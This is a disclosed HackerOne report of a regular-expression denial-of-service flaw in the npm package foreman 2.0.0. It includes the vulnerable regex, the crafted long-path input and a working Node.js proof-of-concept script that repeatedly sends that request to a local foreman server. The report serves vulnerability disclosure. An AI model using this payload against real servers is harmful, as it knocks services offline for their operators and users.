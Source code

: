 # `foreman` is vulnerable to ReDoS in path

## Report Details
- **Report ID**: 320586
- **URL**: https://hackerone.com/reports/320586
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-02-28T03:13:44.212Z
- **Disclosed**: 2018-04-28T20:31:32.910Z

## Reporter
- **Username**: chalker
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report ReDoS in `foreman`.
It allows to cause denial of service by suppling a crafted path.

# Module

**module name:** foreman
**version:** 2.0.0
**npm page:** `https://www.npmjs.com/package/foreman`

## Module Description

> Node Foreman is a Node.js version of the popular Foreman tool, with a few Node specific changes.

## Module Stats

5 296 downloads in the last day
30 879 downloads in the last week
141 342 downloads in the last month

~1 696 104 estimated downloads per year

# Vulnerability

## Vulnerability Description

ReDoS.

Regex: `/http:\/\/[^/]*:?[0-9]*(\/.*)$/`
Evil string: `http://${Array(81000).join('0')}` (unwrap js template)
Line: https://github.com/strongloop/node-foreman/blob/v2.0.0/forward.js#L30
Blocks for ~5 seconds per request.

## Steps To Reproduce:

`nf start -f 9999`

```js
const net = require('net');
const tick = function() {
const client = net.createConnection({ port: 9999 }, () => {
  client.write(`GET http://${Array(81000).join('0')} HTTP/1.1
Host: localhost:9999


"`);
  });
}
setInterval(tick, 1000)
```

## Supporting Material/References:

- OS: Arch Linux current
- Node.js 9.5.0
- npm 5.6.0

# Wrap up

- I contacted the maintainer to let him know: N
- I opened an issue in the related repository: N

## Impact

Denial of Service by passing crafted paths.

## Attachments
No attachments
